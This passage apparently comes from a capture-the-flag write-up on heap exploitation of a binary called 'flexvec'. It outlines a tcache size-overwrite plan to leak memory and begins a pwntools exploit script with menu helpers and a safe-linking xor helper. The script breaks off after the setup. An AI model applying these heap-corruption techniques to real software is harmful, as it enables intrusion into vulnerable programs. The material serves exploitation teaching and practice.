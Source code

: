 To implement this, the path would be:

1. Overflow into a small sized chunk and change the size into 0x71.
2. Malloc into the overflown chunk.
3. Free the overflown chunk into 0x70 tcache bin.
4. Malloc into the 0x70 tcache bin.
5. Shrink them to switch chunks, and the leak will happen.

Implementing this, the pwntools script:

{% code title="solve.py" %}
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'flexvec_patched')
libc = exe.libc
context.terminal = 'tmux splitw -h'.split()


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
set max-visualize-chunk-size 0x500
# tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

def convert(val):
    return str(val).encode()

def push(val):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'value: ', val)

def pop():
    io.sendlineafter(b'> ', b'2')
    io.recvuntil(b'value: ')
    return io.recvline(keepends=False)

def shrink():
    io.sendlineafter(b'> ', b'3')

def xor(val):
    return (heapleak >> 12) ^ val

heapleak = 0

io = start()

shrink() # Immediately shrink to trigger the bug

push(convert(1))
push(convert(2))
push(convert(3))
shrink() # Shrink to reset
push(convert(0x21)) # Setup for tcache next_size check
```